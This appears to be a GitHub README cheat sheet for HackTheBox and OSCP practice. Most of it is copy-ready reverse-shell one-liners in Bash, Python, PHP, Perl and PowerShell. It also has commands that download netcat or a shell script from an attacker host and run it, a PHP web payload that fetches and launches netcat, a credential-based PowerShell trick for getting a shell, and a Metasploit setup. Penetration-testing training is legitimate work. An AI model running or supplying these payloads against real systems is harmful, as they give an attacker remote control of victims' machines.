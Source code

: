 # HackTheBox
For OSCP preparation!

## CheatSheet
* [Reverse shell](#Reverse)
* [Powershell Cheatsheet](#PSCheat)
* [Metasploit Setup](#Metasploit)
### Bash

```bash
bash -i >& /dev/tcp/{IP}}/{PORT}} 0>&1
sh -i >& /dev/udp/{IP}/{PORT}} 0>&1

0<&196;exec 196<>/dev/tcp/<your IP>/<same unfiltered port>; sh <&196 >&196 2>&196
```

### Python

```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### php
```PHP
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Powershell

```Powershell
Create shell.ps1

$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## PSCheat


**One Liner 'Download file with powershell'**
```Download File -Powershell
cmd.exe> powershell IWR http://10.12.12.12/nc.exe -outfile \\PATH\\nc.exe

PS> Invoke-WebRequest http://10.10.15.15/shell.ps1 -OutFile c:\shell.ps1
```
**One liner 'PHP Reverse shell when Target machine is Windows'**
```

<?= system("powershell IWR http://10.12.12.12/nc.exe -outfile \\windows\\temp\\nc.exe; \\windows\\temp\\nc.exe 10.12.12.12 4444 -e powershell.exe 2>&1") ?>

Start Listerner > nc -lvnp 4444
If reverse shell does not connect -Verify if target machine has AV as it may delete the netcat.
```

**Switch User in Powershell (Like Su user in Linux but in windows its tricky)**

```
PS>$user = 'WORKGROUP\Miracle' 
PS>$passwd = 'securepass' 
PS>$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
PS>$cred = new-object system.management.automation.PSCredential $user,$secpass 
PS>Invoke-Command -computername 127.0.0.1 -ScriptBlock { whoami } -credential $cred
```
*It will print Usernmae WORKGROUP\Miracle because of this { whoami }, Then to get reverse shell use below lines and remember to change the 'Ip' & 'Port'*
```
PS>Invoke-Command -computername 127.0.0.1 -ScriptBlock { wget http://10.10.14.201/nc.exe -OutFile C:\temp\nc.exe } -credential $cred
PS>Invoke-Command -computername 127.0.0.1 -ScriptBlock { C:\temp\nc.exe 10.10.14.201 8687 -e powershell.exe } -credential $cred
```


## Metasploit

```
root@Miracle:~# apt update; apt install metasploit-framework 
root@Miracle:~# msfdb delete
root@Miracle:~# msfdb init
root@Miracle:~# cp /usr/share/metasploit-framework/config/database.yml /root/.msf4/
root@Miracle:~# service postgresql restart
root@Miracle:~# msfconsole
MSF5 > db_status
Msf5 > db_rebuild_cache

Easy
```
